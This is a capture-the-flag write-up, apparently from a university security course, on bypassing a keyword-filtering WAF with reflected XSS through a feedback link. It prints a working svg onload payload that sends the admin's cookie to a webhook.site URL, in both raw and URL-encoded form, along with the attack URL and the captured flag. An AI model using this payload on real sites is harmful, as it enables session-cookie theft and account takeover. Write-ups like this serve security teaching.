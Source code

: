 # Challenge `Give me more than a simple WAF` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies but this time certain keywords are being filtered out.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search URL parameter 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
This time we can't create a payload with the keyword `script` or `img` so we will use the `svg` tag with the `onload` function execute the JavaScript code.
However there are many more tags that can execute code, such as <svg /> which has an `onload` method that will JavaScript code upon being rendered.
Using the same technique as before, create a payload that sends a requesto a webhook URL:
`<svg onload="location='https://webhook.site/your-unique-id/'+document.cookie"/>`
Encode it:
`%3Csvg%20onload%3D%22location%3D%27https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%27%2Bdocument.cookie%22%2F%3E`
Finally, append it to the URL parameter `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Csvg%20onload%3D%22location%3D%27https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%27%2Bdocument.cookie%22%2F%3E`
In the webhook site, a GET request will show up with the cookie in the URL
`	https://webhook.site/your-unique-id/SECRET=SSof%7BBut_I_was_told_that_this_WAF_was_all_I_needed...%7D` revealing the flag `SSof{But_I_was_told_that_this_WAF_was_all_I_needed...}`.

## Implementation

No script needed.